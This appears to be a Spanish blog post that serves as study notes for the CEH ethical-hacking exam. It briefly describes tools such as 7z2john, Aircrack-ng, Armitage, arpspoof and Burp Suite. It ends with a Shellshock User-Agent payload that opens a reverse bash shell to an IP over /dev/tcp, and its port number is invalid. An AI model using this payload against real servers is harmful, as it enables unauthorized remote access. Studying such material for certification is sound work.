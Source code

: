 ```yaml
---
layout: single
title: Herramientas revisadas (resumen)
excerpt: "Listado de herramientas útiles en seguridad y unos ejemplos que ayudan a aprender a usarlas"
date: 2018-02-07
classes: wide
header:
  teaser: https://hakin9.org/wp-content/uploads/2017/09/CEH.png
  teaser_home_page: true
categories:
  - Ethical Hacking
  - Utilidades
tags:
  - Pentesting
  - Web Exploiting
  - Web Penetration Testing
  - Examen
  - CEH
---
```


<p align="center">
<img src="https://hakin9.org/wp-content/uploads/2017/09/CEH.png">
</p>


## Preparación para examen CEH
<https://ceh.cagy.org/>

### 7z2john 
Extrae el hash de cifrado de password de un 7zip para romperlo con john
Necesita compilar esta librería <https://www.cpan.org/modules/by-module/Compress/Compress-Raw-Lzma-2.074.tar.gz>

### AirNG 
Suite que Monitorea y sirve para capturar/romper passwords de routers wifi 

### Armitage 
versión amistosa/interfaz de Metasploit  (fue retirado de kali)
 
### Arpspoof 
Suplanta el arp. Sirve para hacer Man in the middle 

### Burpsuit 
sirve para interceptar el tráfico web y modificarlo antes de procesarlo. 

  Detener una petición de get y modificar el user agent (ShellShock) 
  User-Agent:() { :; }; /bin/bash -c 'bash -i >& /dev/tcp/10.0.0.23/80850 0>&1' 
